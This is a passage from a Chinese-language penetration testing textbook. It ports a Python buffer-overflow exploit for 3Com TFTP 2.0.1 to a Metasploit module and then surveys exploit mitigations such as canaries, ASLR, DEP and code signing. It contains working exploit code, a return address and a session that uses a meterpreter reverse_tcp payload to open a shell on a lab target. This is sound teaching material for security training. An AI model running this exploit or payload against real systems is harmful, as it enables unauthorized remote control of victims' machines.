`pack` 是一个 Ruby 方法，它根据模板将数组转换为二进制序列。`'V'` 模板 ❸ 指示 Ruby 以小端格式打包我们的返回地址。在返回地址之后，用户选择的负载被编码并附加到漏洞字符串中，负载填满了允许的总空间，这个空间由 `Space` 变量 ❹ 定义。一个空字节表示文件名字段的结束。（有趣的是，攻击字符串甚至不需要完成 TFTP 数据包就能利用程序，因为模式和最终的空字节并不会附加到漏洞字符串中。）

### 移植我们的漏洞利用代码

在本章早些时候，我建议将 3Com TFTP 服务器的长传输模式漏洞作为练习编写一个漏洞利用代码。你编写的漏洞利用代码应该与 示例 19-9 中的代码类似。如果你没有尝试编写这个漏洞利用代码，依然应该能够理解代码的工作原理，因为你已经完成了前面的示例。

示例 19-9. 完成的 3Com TFTP Python 漏洞利用代码

```
  #!/usr/bin/python
  import socket
❶ shellcode = ("\x33\xc9\x83\xe9\xb0\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\
  x1d" + "\x4d\x2f\xe8\x83\xeb\xfc\xe2\xf4\xe1\x27\xc4\xa5\xf5\xb4\xd0\x17" +
  --*snip*--
  "\x4e\xb2\xf9\x17\xcd\x4d\x2f\xe8")
  buffer = shellcode + "A" * 129 + "\xD3\x31\xC1\x77" ❷
  packet = "\x00\x02" + "Georgia" + "\x00" + buffer + "\x00"
  s=socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
  s.sendto(packet,('192.168.20.10',69))
  response = s.recvfrom(2048)
  print response
```

你的返回地址可能指向另一个 `JMP ESI` 指令 ❷，而且你可能使用了不同的负载 ❶。

现在，让我们将 Python 漏洞利用代码移植到 Metasploit，将 FutureSoft TFTP 示例模块中的值更改为适应我们的需求。我们只需对之前讨论的现有漏洞模块进行少量更改，如 示例 19-10 和 示例 19-11 中所示。

示例 19-10. 编辑后的模块，第一部分

```
##
# This module requires Metasploit: http//metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
  Rank = AverageRanking

  include Msf::Exploit::Remote::Udp ❶

  def initialize(info = {})
    super(update_info(info,
      'Name'           => '3com TFTP Long Mode Buffer Overflow',
      'Description'    => %q{
          This module exploits a buffer overflow in the 3com TFTP version 2.0.1 and below with
          a long TFTP transport mode field in the TFTP packet.
      },
      'Author'         => 'Georgia',
      'References'     => ❷
        [
          ['CVE', '2006-6183'],
          ['OSVDB', '30759'],
          ['BID', '21301'],
          ['URL', 'http://www.security.org.sg/vuln/tftp2000-1001.html'],
        ],
      'DefaultOptions' =>
        {
          'EXITFUNC' => 'process',
        },
      'Payload'        =>
        {
          'Space'    => 473, ❸
          'BadChars' => "\x00",
          'StackAdjustment' => -3500,
        },
      'Platform'       => 'win',
      'Targets'        =>
        [
         ['Windows XP Pro SP3 English', { 'Ret' => 0x7E45AE4E } ], #JMP ESI  USER32.dll ❹
        ],
      'Privileged'     => true,
      'DefaultTarget'  => 0, ❺
      'DisclosureDate' => 'Nov 27 2006'))

    register_options(
      [
        Opt::RPORT(69)
      ], self.class)

  end
```

由于这是一个保存返回指针覆盖漏洞，我们不需要导入 SEH Metasploit 混合模块；只需导入 *Msf::Exploit::Remote::Udp* ❶。接下来，我们更改模块的信息，以匹配 3Com TFTP 2.0.1 长传输模式漏洞，以便 Metasploit 用户能够搜索到我们的模块并验证他们是否拥有正确的漏洞利用代码。在线搜索漏洞参考信息，找到 CVE、OSVDB 和 BID 编号，以及其他相关链接 ❷。

接下来，我们更改负载选项，以匹配我们的 3Com 漏洞利用代码。在我们的 Python 漏洞利用代码中，我们先是 344 字节的 shellcode，后跟 129 字节的填充，总共 473 字节的负载。告诉 Metasploit 在 ❸ 创建一个 473 字节的负载。对于目标部分，我们的 Python 漏洞利用代码只覆盖一个平台——Windows XP Professional SP3 英文版。如果我们将漏洞提交到 Metasploit 仓库，应该尽量覆盖更多可以利用的目标。

最后，将 `RET` 更改为 Python 漏洞利用代码中的 *USER32.dll* ❹ 中的 `JMP ESI`。我们还添加了 `DefaultTarget` 选项，告诉 Metasploit 默认使用目标 0，这样用户在运行模块之前就不需要设置目标 ❺。

我们在模块的利用部分唯一需要修改的是利用字符串本身，正如示例 19-11 中所示。

示例 19-11. 修改后的模块，第二部分

```
def exploit
    connect_udp

    print_status("Trying target #{target.name}...")

    sploit  = "\x00\x02"❶ + rand_text_english(7, payload_badchars)❷ + "\x00"❸
    sploit += payload.encoded❹  + [target.ret].pack('V')❺ +  "\x00"❻

    udp_sock.put(sploit)

    handler
    disconnect_udp
  end
end ❼
```

与 Python 利用示例一样，我们首先告诉 TFTP 服务器将数据写入文件 ❶。然后，我们使用 `rand_text_english` 函数创建一个随机的七字符文件名 ❷。这种方法比我们在 Python 利用示例中使用静态字母更为优越，因为任何可预测的内容都可以用来为杀毒程序、入侵防御系统等编写签名。接下来，我们按照 TFTP 数据包规范，使用一个空字节来结束文件名 ❸，然后附加上用户选择的有效载荷 ❹ 和返回地址 ❺。最后按照 TFTP 规范 ❻ 用一个空字节结束数据包。（在使用 `end` 结束利用函数后，不要忘记在 ❼ 处关闭模块。）

我们现在已经为 3Com TFTP 2.0.1 长传输模式漏洞编写了一个利用模块。将文件保存在 */root/.msf4/modules/exploits/windows/tftp/myexploit.rb*，然后运行 Msftidy 工具对模块进行格式验证，确保其符合 Metasploit 模块的格式规范。在提交模块到 Metasploit 仓库之前，按照 Msftidy 提出的建议进行任何格式更改。

```
root@kali:~# **cd /usr/share/metasploit-framework/tools/**
root@kali:/usr/share/metasploit-framework/tools# **./msftidy.rb /root/.msf4/modules/exploits/windows/tftp/myexploit.rb**
```

### 注意

Metasploit 会不时修改其所需的语法，因此如果你打算提交一个模块到代码库，运行 `msfupdate` 获取最新版本的 Msftidy。在这种情况下，我们不需要担心这个问题，运行 `msfupdate` 可能会导致书中的其他练习出现问题，因此目前我不建议运行它。

重启 Msfconsole 以加载最新的模块，包括任何位于 *.msf4/modules* 目录中的模块。如果你犯了任何语法错误，Metasploit 会显示无法加载的模块的详细信息。

现在使用你的新利用模块来攻击 Windows XP 目标。如示例 19-12 所示，Metasploit 可以将多个有效载荷装入 473 个字符内，包括 Meterpreter ❶。

示例 19-12. 使用你的模块

```
msf > **use windows/tftp/myexploit**
msf  exploit(myexploit) > **show options**
Module options (exploit/windows/tftp/myexploit):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  69               yes       The target port

Exploit target:

   Id  Name
   --  ----
   0   Windows XP Pro SP3 English

msf  exploit(myexploit) > **set RHOST 192.168.20.10**
RHOST => 192.168.20.10
msf  exploit(myexploit) > **show payloads**
--*snip*--
msf  exploit(myexploit) > **set payload windows/meterpreter/reverse_tcp**❶
payload => windows/meterpreter/reverse_tcp
msf  exploit(myexploit) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf  exploit(myexploit) > **exploit**
[*] Started reverse handler on 192.168.20.9:4444
[*] Trying target Windows XP Pro SP3 English...
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 1 opened (192.168.20.9:4444 -> 192.168.20.10:4662) at 2015-02-09 09:28:35 -0500
meterpreter >
```

现在我们已经通过一个编写 Metasploit 模块的示例，下面是另一个想法。一个可以利用 War-FTP 1.65 用户缓冲区溢出的 Metasploit 模块，位于 */usr/share/metasploit-framework/modules/exploits/windows/ftp/warftpd_165_user.rb*，使用了保存的返回指针覆盖技术。尝试编写一个类似的模块，使用我们在第十八章中处理过的 SEH 覆盖技术。

## 利用缓解技术

我们在 第十八章中讨论了一种漏洞利用缓解技术，称为 SafeSEH。攻击者开发新漏洞利用技术的同时，平台实现缓解措施，接着攻击者又会提出新的方法。在这里，我们将简要讨论几种现代的漏洞利用缓解方法。这份列表并不完整，也不在本书讨论绕过所有这些限制的漏洞利用的范围内。除了这里讨论的内容外，还有许多高级漏洞利用和有效载荷投递技术，如堆喷和面向返回的编程。更多关于高级漏洞利用开发技术的信息，请访问我的网站 (*[`www.bulbsecurity.com/`](http://www.bulbsecurity.com/)*) 和 Corelan 团队的网站 (*[`www.corelan.be/`](http://www.corelan.be/)*)。

### 堆栈保护

自然地，随着缓冲区溢出漏洞的普遍存在，开发人员希望阻止这些类型的攻击劫持执行。实现*堆栈保护*（也称为*金丝雀*）是一种方法。在程序启动时，计算并将堆栈保护值添加到*.data*内存区域。使用易受缓冲区溢出影响的结构（如字符串缓冲区）的函数会从*.data*获取金丝雀值，并在保存的返回地址和 EBP 之后将其压入堆栈。函数返回之前，会检查堆栈上的金丝雀值是否与*.data*中的值匹配。如果值不匹配，则会检测到缓冲区溢出，程序会在攻击劫持执行之前终止。

你可以使用多种技术绕过堆栈保护，如在易受攻击的函数返回之前触发 SEH 覆盖和异常，或者在检查金丝雀值之前劫持执行。

### 地址空间布局随机化

本书中我们编写的漏洞利用依赖于特定指令位于特定内存地址。例如，在我们第一章 第十七章中的 War-FTP 堆栈缓冲区溢出示例中，我们依赖于 Windows *MSVCRT.dll* 模块中的 `JMP ESP` 等效指令位于所有 Windows XP SP3 英文系统中的内存地址 `0x77C35459`。在我们 第十八章中的 SEH 覆盖示例中，我们依赖于 War-FTP 的 *MFC42.dll* 模块中的 `POP POP RET` 指令位于内存地址 `0x5F4580CA`。如果这些条件中的任何一个不成立，我们的整个攻击方法就会受到破坏，我们就需要找到这些指令才能执行它们。

当启用 ASLR 时，你不能依赖某些指令位于特定的内存地址。要查看 ASLR 的实际效果，可以在你的 Windows 7 虚拟机上通过 Immunity Debugger 打开 Winamp 程序。注意 *Winamp.exe* 和一些 Windows DLL（如 *USER32* 和 *SHELL32*）的内存位置。现在重启系统再试一次。你应该会注意到，Windows 组件的位置在重启后发生了变化，而 *Winamp.exe* 的位置保持不变。在我的案例中，我第一次在 Immunity Debugger 中查看 Winamp 时，内存位置如下：

+   `00400000` *Winamp.exe*

+   `778B0000` *USER32.dll*

+   `76710000` *SHELL32.dll*

重启后，它们的地址变成了这样：

+   `00400000` *Winamp.exe*

+   `770C0000` *USER32.dll*

+   `75810000` *SHELL32.dll*

与 SafeSEH 类似，Windows 中没有强制要求程序必须实现 ASLR。即使一些 Windows 应用程序（如 Internet Explorer）最初也没有立即实现 ASLR。然而，Windows Vista 及之后的版本，像 *USER32.dll* 和 *SHELL32.dll* 这样的共享库确实使用了 ASLR。如果我们希望使用这些库中的代码，我们将无法直接从静态地址调用指令。

### 数据执行保护

在我们过去几章开发的漏洞利用中，我们依赖于将我们的 shellcode 注入某个内存位置，传递执行到 shellcode，并让 shellcode 执行。*数据执行保护（DEP）* 通过将特定的内存区域标记为不可执行，设计上使得这一过程变得更加困难。如果攻击者尝试从不可执行的内存中执行代码，攻击将失败。

DEP 被大多数现代版本的 Windows 以及 Linux、Mac OS 和甚至 Android 平台使用。iOS 不需要 DEP，关于这一点将在下一节讨论。

为了绕过 DEP，攻击者通常使用一种名为 *返回导向编程（ROP）* 的技术。ROP 允许攻击者执行已包含在可执行内存中的特定指令。一种常见的技术是使用 ROP 创建一个可写且可执行的内存区域，然后将有效载荷写入该内存段并执行它。

### 强制代码签名

苹果的 iOS 团队采取了不同的方式来防止恶意代码执行。在 iPhone 上执行的所有代码必须由受信任的机构签名，通常是苹果公司本身。为了在 iPhone 上运行应用程序，开发者必须提交代码进行苹果的审核。如果苹果确定他们的应用程序不是恶意的，通常会批准并由苹果签名代码。

恶意软件作者绕过安装时检测的常见方式是，在运行时下载新的、潜在恶意的代码并执行它。然而，由于所有内存页必须由受信任的机构签名，这种攻击方式在 iPhone 上会失败。只要应用程序尝试运行未签名的代码，CPU 就会拒绝它，应用程序将崩溃。DEP 不是必需的，因为强制代码签名进一步加强了保护。

当然，也有可能编写能够绕过这些限制的漏洞，就像 iPhone 越狱一样，但在最新版本的 iOS 上，越狱并非易事。与其简短地使用 ROP 来创建 DEP 绕过，在强制代码签名的情况下，整个有效负载必须使用 ROP 来创建。

单一的缓解技术不足以阻止那些掌握最新方法的高技能漏洞开发者。因此，漏洞缓解技术通常会组合在一起，以进一步抵御攻击。例如，iOS 同时使用强制代码签名和完整的 ASLR（地址空间布局随机化）。因此，攻击者必须对整个有效负载使用 ROP，并且由于 ASLR 的存在，构建 ROP 有效负载并非易事。

在前两章中，我们已经涵盖了漏洞开发的基础知识。基于我们讨论的技能，你可以进入更高级的漏洞利用，甚至突破最新、最安全的平台和程序。

## 总结

本章我们介绍了一些基础漏洞开发的零散技巧。我们介绍了一种叫做模糊测试（fuzzing）的方法，用于发现潜在的漏洞点。我们还讨论了如何使用公共漏洞并将其移植以满足我们的需求。我们通过使用 Msfvenom 替换了 shellcode，并找到了适合我们平台的返回地址。接下来，我们看了如何将一个完成的 Python 漏洞移植到我们的第一个 Metasploit 模块中。从一个类似问题的模块开始，我们做了修改以适应 3Com TFTP 长传输模式缓冲区溢出漏洞。最后，我们简要讨论了一些在继续学习漏洞开发时可能会遇到的漏洞缓解技术。

我们即将结束渗透测试基础部分的学习。让我们通过一章关于评估移动设备安全性的内容来收尾。
